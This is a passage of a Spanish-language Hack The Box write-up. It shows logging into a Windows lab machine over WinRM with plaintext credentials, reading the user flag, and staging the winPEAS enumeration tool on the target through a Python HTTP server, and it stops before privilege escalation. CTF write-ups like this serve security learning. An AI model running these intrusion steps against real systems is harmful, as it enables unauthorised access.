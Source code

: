 Anteriormente vimos el puerto **`5985`** abierto, que corresponde al servicio **`WinRM`**.
Como tenemos credenciales, podemos conectarnos y tratar de leer el archivo **`user.txt`**
(en máquinas Windows de HTB suele estar en el Escritorio).

```console
p3ntest1ng:~$ evil-winrm -i 10.10.11.106 -u tony -p 'liltony'

Evil-WinRM shell v3.3

...[snip]...

*Evil-WinRM* PS C:\Users\tony\Documents> type ..\Desktop\user.txt
79a84569416277bb85a8797661e17a43
```

## Escalada de Privilegios

Antes de nada necesitamos enumerar para ver qué servicios existen en el sistema.
Para ello usaremos **`winPEAS`** que podemos descargar de su repositorio en Github.

> https://github.com/carlospolop/PEASS-ng

Nos bajamos el binario en nuestra máquina:

```console
p3ntest1ng:~$ wget https://github.com/carlospolop/PEASS-ng/releases/download/20220220/winPEASx64.exe

...[snip]...

winPEASx64.exe    100%[========================================>]   1,84M  --.-KB/s    en 0,1s    

2022-02-25 16:17:05 (13,3 MB/s) - «winPEASx64.exe» guardado [1931776/1931776]
```

Compartimos un servicio http con python y lo descargamos desde la víctima:

```console
p3ntest1ng:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```console
*Evil-WinRM* PS C:\Users\tony\Documents> cd C:\Windows\Temp
*Evil-WinRM* PS C:\Windows\Temp> mkdir Privesc


    Directory: C:\Windows\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/25/2022   4:27 PM                Privesc


*Evil-WinRM* PS C:\Windows\Temp> cd Privesc
```
